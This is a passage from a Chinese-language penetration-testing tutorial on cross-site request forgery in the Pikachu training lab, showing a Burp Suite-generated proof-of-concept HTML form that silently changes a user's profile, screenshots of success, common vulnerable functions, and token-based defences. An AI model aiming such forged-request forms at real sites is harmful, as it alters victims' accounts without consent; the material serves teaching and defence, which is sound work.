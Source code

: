 ![](https://gitee.com/YatJay/image/raw/master/img/202203081015766.png)

会生成一段测试CSRF是否存在的HTML代码

![](https://gitee.com/YatJay/image/raw/master/img/202203081016863.png)

利用次Poc进行测试，验证CSRF漏洞的存在

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.137.128/pentest/pikachu/vul/csrf/csrfget/csrf_get_edit.php">
      <input type="hidden" name="sex" value="boy" />
      <input type="hidden" name="phonenum" value="3333333333" />
      <input type="hidden" name="add" value="Tianjin" />
      <input type="hidden" name="email" value="kobe&#64;pikachu&#46;com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

访问该测试代码

![](https://gitee.com/YatJay/image/raw/master/img/202203081020698.png)

点击按钮后会自动跳转，可见修改成功，验证确实存在CSRF漏洞

![](https://gitee.com/YatJay/image/raw/master/img/202203081020783.png)

##### 漏洞检测点

用户信息修改页面

密码修改处

点赞

转账

注销

删除

#### 防御方案

1. 当用户发送重要的请求时需要输入原始密码

2. 设置随机Token(最有效)

Token是数据包的唯一值，可以理解为是数据包的编号。从本站提交的数据包的Token值和从跨站提交的数据包的Token值不同，只需验证Token值是否是本站数据包的Token，即通过Token值验证该数据包是否是从本站发出，也是一种同源策略，检测来源。
